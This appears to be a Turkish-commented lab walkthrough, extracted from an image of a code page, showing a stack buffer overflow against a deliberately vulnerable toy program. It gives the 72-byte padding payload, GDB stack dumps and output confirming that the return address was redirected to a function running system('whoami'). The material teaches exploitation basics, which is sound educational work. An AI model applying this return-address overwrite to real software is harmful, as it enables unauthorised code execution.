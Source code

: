 ```bash
# Payload: 72 byte 'A' + execute_whoami adresi
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00

# 4. ADIM: Stack durumunu kontrol et
(gdb) x/32gx $rsp
# ÇIKTI ÖRNEĞİ:
# 0x7fffffffe000: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe010: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe020: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe030: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe040: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe050: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe060: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe070: 0x4141414141414141  0x4141414141414141
# 0x7fffffffe080: 0x4141414141414141  0x0000000000401220
# YORUM: ✅ Buffer overflow başarılı! Return address 0x401220 (execute_whoami) oldu

# 5. ADIM: Return address'i doğrula
(gdb) x/gx $rsp+0x48
# ÇIKTI: 0x7fffffffe048: 0x0000000000401220
# YORUM: ✅ MÜKEMMEL! Return address execute_whoami ile değişti

# 6. ADIM: execute_whoami'ye geçiş yap
(gdb) stepi
# ÇIKTI: Breakpoint 1, execute_whoami () at vulnerable_code.cpp:45
# YORUM: ✅ BAŞARILI! execute_whoami fonksiyonu çağrıldı

# 7. ADIM: Fonksiyonun çalışmasını izle
(gdb) continue
# ÇIKTI:
# Shellcode Enjeksiyonu Basarili!
# 'whoami' komutu calistiriliyor...
# === WHOAMI KOMUTU CIKTISI ===
# alicangonullu
# =============================
# Komut basariyla calistirildi!
# ROP ile sistem komutu basariyla enjekte edildi!
# YORUM: ✅ MÜKEMMEL! Exploit tamamen başarılı!

# 8. ADIM: Program sonucunu kontrol et
# Program exit(0) ile sonlandı
# YORUM: ✅ Program düzgün sonlandı

# SONUÇ DEĞERLENDİRMESİ:
# ✅ Buffer overflow başarılı
# ✅ Return address değişimi başarılı  
# ✅ execute_whoami çağrısı başarılı
# ✅ system("whoami") çalıştırma başarılı
# ✅ Kullanıcı adı gösterildi (alicangonullu)
# ✅ Program düzgün sonlandı
# ✅ ROP exploit tamamen başarılı!
```
